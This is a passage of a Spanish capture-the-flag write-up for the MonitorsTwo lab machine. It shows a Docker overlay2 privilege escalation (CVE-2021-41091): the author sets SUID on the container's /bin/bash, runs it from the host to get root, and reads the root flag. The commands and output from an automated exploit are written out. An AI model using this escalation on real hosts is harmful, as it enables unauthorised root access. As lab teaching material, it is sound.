Got permission denied while trying to connect to the Docker daemon socket at unix:///var/run/docker.sock: Get "http://%2Fvar%2Frun%2Fdocker.sock/v1.24/containers/json": dial unix /var/run/docker.sock: connect: permission denied
marcus@monitorstwo:/var/lib/docker$ mount
sysfs on /sys type sysfs (rw,nosuid,nodev,noexec,relatime)
proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
udev on /dev type devtmpfs (rw,nosuid,noexec,relatime,size=1966928k,nr_inodes=491732,mode=755)
devpts on /dev/pts type devpts (rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=000)
tmpfs on /run type tmpfs (rw,nosuid,nodev,noexec,relatime,size=402608k,mode=755)
/dev/sda2 on / type ext4 (rw,relatime)
securityfs on /sys/kernel/security type securityfs (rw,nosuid,nodev,noexec,relatime)
tmpfs on /dev/shm type tmpfs (rw,nosuid,nodev)
tmpfs on /run/lock type tmpfs (rw,nosuid,nodev,noexec,relatime,size=5120k)
tmpfs on /sys/fs/cgroup type tmpfs (ro,nosuid,nodev,noexec,mode=755)
cgroup2 on /sys/fs/cgroup/unified type cgroup2 (rw,nosuid,nodev,noexec,relatime,nsdelegate)
cgroup on /sys/fs/cgroup/systemd type cgroup (rw,nosuid,nodev,noexec,relatime,xattr,name=systemd)
pstore on /sys/fs/pstore type pstore (rw,nosuid,nodev,noexec,relatime)
none on /sys/fs/bpf type bpf (rw,nosuid,nodev,noexec,relatime,mode=700)
cgroup on /sys/fs/cgroup/freezer type cgroup (rw,nosuid,nodev,noexec,relatime,freezer)
cgroup on /sys/fs/cgroup/net_cls,net_prio type cgroup (rw,nosuid,nodev,noexec,relatime,net_cls,net_prio)
cgroup on /sys/fs/cgroup/memory type cgroup (rw,nosuid,nodev,noexec,relatime,memory)
cgroup on /sys/fs/cgroup/hugetlb type cgroup (rw,nosuid,nodev,noexec,relatime,hugetlb)
cgroup on /sys/fs/cgroup/cpu,cpuacct type cgroup (rw,nosuid,nodev,noexec,relatime,cpu,cpuacct)
cgroup on /sys/fs/cgroup/pids type cgroup (rw,nosuid,nodev,noexec,relatime,pids)
cgroup on /sys/fs/cgroup/perf_event type cgroup (rw,nosuid,nodev,noexec,relatime,perf_event)
cgroup on /sys/fs/cgroup/blkio type cgroup (rw,nosuid,nodev,noexec,relatime,blkio)
cgroup on /sys/fs/cgroup/rdma type cgroup (rw,nosuid,nodev,noexec,relatime,rdma)
cgroup on /sys/fs/cgroup/devices type cgroup (rw,nosuid,nodev,noexec,relatime,devices)
cgroup on /sys/fs/cgroup/cpuset type cgroup (rw,nosuid,nodev,noexec,relatime,cpuset)
systemd-1 on /proc/sys/fs/binfmt_misc type autofs (rw,relatime,fd=28,pgrp=1,timeout=0,minproto=5,maxproto=5,direct,pipe_ino=16423)
hugetlbfs on /dev/hugepages type hugetlbfs (rw,relatime,pagesize=2M)
mqueue on /dev/mqueue type mqueue (rw,nosuid,nodev,noexec,relatime)
debugfs on /sys/kernel/debug type debugfs (rw,nosuid,nodev,noexec,relatime)
tracefs on /sys/kernel/tracing type tracefs (rw,nosuid,nodev,noexec,relatime)
configfs on /sys/kernel/config type configfs (rw,nosuid,nodev,noexec,relatime)
fusectl on /sys/fs/fuse/connections type fusectl (rw,nosuid,nodev,noexec,relatime)
overlay on /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged type overlay (rw,relatime,lowerdir=/var/lib/docker/overlay2/l/756FTPFO4AE7HBWVGI5TXU76FU:/var/lib/docker/overlay2/l/XKE4ZK5GJUTHXKVYS4MQMJ3NOB:/var/lib/docker/overlay2/l/3JPYTR54WWK2EX6DJ7PMMAVPQQ:/var/lib/docker/overlay2/l/YWET34PNBXR53LJY2XX7ZIXHLS:/var/lib/docker/overlay2/l/IM3MC55GS7JDB4D2EYTLAZAYLJ:/var/lib/docker/overlay2/l/6TLSBQSLTGP74QVFJVO2GOHLHL:/var/lib/docker/overlay2/l/OOXBDBKU7L25J3XQWTXLGRF5VQ:/var/lib/docker/overlay2/l/FDT56KIETI2PMNR3HGWAZ3GIGS:/var/lib/docker/overlay2/l/JE6MIEIU6ONHIWNBG36DJGDNEY:/var/lib/docker/overlay2/l/IAY73KSFENK4CC5DX5L2HCRFQJ:/var/lib/docker/overlay2/l/UDDRFLWFZYH6I5EUDCDWCOPSZX:/var/lib/docker/overlay2/l/5MM772DWMOBQZAEA4J34QYSZII,upperdir=/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/diff,workdir=/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/work,xino=off)
shm on /var/lib/docker/containers/e2378324fced58e8166b82ec842ae45961417b4195aade5113fdc9c6397edc69/mounts/shm type tmpfs (rw,nosuid,nodev,noexec,relatime,size=65536k)
nsfs on /run/docker/netns/3ffb81f4cc54 type nsfs (rw)
overlay on /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged type overlay (rw,relatime,lowerdir=/var/lib/docker/overlay2/l/4Z77R4WYM6X4BLW7GXAJOAA4SJ:/var/lib/docker/overlay2/l/Z4RNRWTZKMXNQJVSRJE4P2JYHH:/var/lib/docker/overlay2/l/CXAW6LQU6QOKNSSNURRN2X4JEH:/var/lib/docker/overlay2/l/YWNFANZGTHCUIML4WUIJ5XNBLJ:/var/lib/docker/overlay2/l/JWCZSRNDZSQFHPN75LVFZ7HI2O:/var/lib/docker/overlay2/l/DGNCSOTM6KEIXH4KZVTVQU2KC3:/var/lib/docker/overlay2/l/QHFZCDCLZ4G4OM2FLV6Y2O6WC6:/var/lib/docker/overlay2/l/K5DOR3JDWEJL62G4CATP62ONTO:/var/lib/docker/overlay2/l/FGHBJKAFBSAPJNSTCR6PFSQ7ER:/var/lib/docker/overlay2/l/PDO4KALS2ULFY6MGW73U6QRWSS:/var/lib/docker/overlay2/l/MGUNUZVTUDFYIRPLY5MR7KQ233:/var/lib/docker/overlay2/l/VNOOF2V3SPZEXZHUKR62IQBVM5:/var/lib/docker/overlay2/l/CDCPIX5CJTQCR4VYUUTK22RT7W:/var/lib/docker/overlay2/l/G4B75MXO7LXFSK4GCWDNLV6SAQ:/var/lib/docker/overlay2/l/FRHKWDF3YAXQ3LBLHIQGVNHGLF:/var/lib/docker/overlay2/l/ZDJ6SWVJF6EMHTTO3AHC3FH3LD:/var/lib/docker/overlay2/l/W2EMLMTMXN7ODPSLB2FTQFLWA3:/var/lib/docker/overlay2/l/QRABR2TMBNL577HC7DO7H2JRN2:/var/lib/docker/overlay2/l/7IGVGYP6R7SE3WFLYC3LOBPO4Z:/var/lib/docker/overlay2/l/67QPWIAFA4NXFNM6RN43EHUJ6Q,upperdir=/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/diff,workdir=/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/work,xino=off)
shm on /var/lib/docker/containers/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e/mounts/shm type tmpfs (rw,nosuid,nodev,noexec,relatime,size=65536k)
nsfs on /run/docker/netns/1e0059c8be90 type nsfs (rw)
tmpfs on /run/user/1000 type tmpfs (rw,nosuid,nodev,relatime,size=402608k,mode=700,uid=1000,gid=1000)
binfmt_misc on /proc/sys/fs/binfmt_misc type binfmt_misc (rw,nosuid,nodev,noexec,relatime)
```

Al revisar el contenido de ambos contenedores, nos encontramos que al parecer el segundo es el de `cacti`, el cual teníamos acceso como usuario `root`.

```bash
marcus@monitorstwo:/var/lib/docker$ ls /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
bin  boot  dev  docker-entrypoint-initdb.d  entrypoint.sh  etc  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
marcus@monitorstwo:/var/lib/docker$ ls /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
bin  boot  dev  entrypoint.sh  etc  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
marcus@monitorstwo:/var/lib/docker$ ls /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged/var/www/html
ls: cannot access '/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged/var/www/html': No such file or directory
marcus@monitorstwo:/var/lib/docker$ ls /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/var/www/html
about.php                   automation_tree_rules.php  color.php                  graph_image.php             help.php            log                     poller.php            rrdcleaner.php               templates_import.php
aggregate_graphs.php        boost_rrdupdate.php        color_templates_items.php  graph_json.php              host.php            logout.php              poller_realtime.php   scripts                      tree.php
aggregate_items.php         cache                      color_templates.php        graph.php                   host_templates.php  managers.php            poller_recovery.php   script_server.php            user_admin.php
aggregate_templates.php     cactid.php                 data_debug.php             graph_realtime.php          images              mibs                    poller_reports.php    service                      user_domains.php
auth_changepassword.php     cacti.sql                  data_input.php             graphs_items.php            include             permission_denied.php   pollers.php           service_check.php            user_group_admin.php
auth_login.php              cdef.php                   data_queries.php           graphs_new.php              index.php           plugins                 poller_spikekill.php  settings.php                 utilities.php
auth_profile.php            CHANGELOG                  data_source_profiles.php   graphs.php                  install             plugins.php             README.md             sites.php                    vdef.php
automation_devices.php      cli                        data_sources.php           graph_templates_inputs.php  lib                 poller_automation.php   remote_agent.php      snmpagent_mibcachechild.php
automation_graph_rules.php  clog.php                   data_templates.php         graph_templates_items.php   LICENSE             poller_boost.php        reports_admin.php     snmpagent_mibcache.php
automation_networks.php     clog_user.php              docs                       graph_templates.php         link.php            poller_commands.php     reports_user.php      snmpagent_persist.php
automation_snmp.php         cmd.php                    formats                    graph_view.php              links.php           poller_dsstats.php      resource              spikekill.php
automation_templates.php    cmd_realtime.php           gprint_presets.php         graph_xport.php             locales             poller_maintenance.php  rra                   templates_export.php
marcus@monitorstwo:/var/lib/docker$ 
```

Probaremos de verificar si la vulnerabilidad está presente, crearemos un nuevo archivo `gzzcoo.txt` en el directorio `/tmp` del contenedor de Docker. Al crear dicho archivo, verificamos que posteriormente lo podemos visualizar accediendo a él.

```bash
marcus@monitorstwo:/var/lib/docker$ echo 'gzzcoo' > /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/tmp/gzzcoo.txt
marcus@monitorstwo:/var/lib/docker$ cat /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/tmp/gzzcoo.txt
gzzcoo
```

Por lo tanto, para poder aprovecharnos de esta vulnerabilidad, lo que realizaremos es darle permisos de `SUID` al binario `/bin/bash` del contenedor de Dcoker el cual obtuvims anteriormente acceso como `root`.

```bash
root@50bca5e748b0:/# ls -l /bin/bash
-rwxr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
root@50bca5e748b0:/# chmod u+s /bin/bash
root@50bca5e748b0:/# ls -l /bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

Una vez asignado los permisos correspondientes, ejecutaremos el `/bin/bash` accediendo directamente desde `/var/lib/docker/overlay2`. Verificamos que finalmente nos hemos convertido en usuario `root` en el equipo objetivo y no en el de Docker.

Logramos obtener finalmente la flag de **root.txt**.

```bash
marcus@monitorstwo:/var/lib/docker$ /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin/bash -p
bash-5.1# whoami
root
bash-5.1# hostname -I
10.10.11.211 172.17.0.1 172.18.0.1 172.19.0.1 dead:beef::250:56ff:fe94:bcf5 
bash-5.1# cat /root/root.txt 
cb9953909ed0000000000000000000000
```

Por otro lado, nos encontramos con el siguiente exploit en Bash que nos guiaba en la explotación, ya que está realizado de una manera más automatizada.



Al ejecutar el exploit, se nos indica que le hayamos otorgado el `setuid` al `/bin/bash` del contenedor de Docker. Una vez realizada esta verificación, se nos indicará el `Vulnerable Path` y cómo abusar de esta vulnerabilidad.

Ejecutaremos la `bash`modificada del contenedor de Docker y logramos obtener el acceso como usuario `root` en el sistema objetivo y no el contenedor de Docker.

```bash
marcus@monitorstwo:/tmp$ ./exploit.sh 
[!] Vulnerable to CVE-2021-41091
[!] Now connect to your Docker container that is accessible and obtain root access !
[>] After gaining root access execute this command (chmod u+s /bin/bash)

Did you correctly set the setuid bit on /bin/bash in the Docker container? (yes/no): yes
[!] Available Overlay2 Filesystems:
/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged

[!] Iterating over the available Overlay2 filesystems !
[?] Checking path: /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
[x] Could not get root access in '/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged'

[?] Checking path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[!] Rooted !
[>] Current Vulnerable Path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[?] If it didn't spawn a shell go to this path and execute './bin/bash -p'

[!] Spawning Shell
bash-5.1# exit
marcus@monitorstwo:/tmp$ /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin/bash -p
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt 
cb9953909ed*************************
```
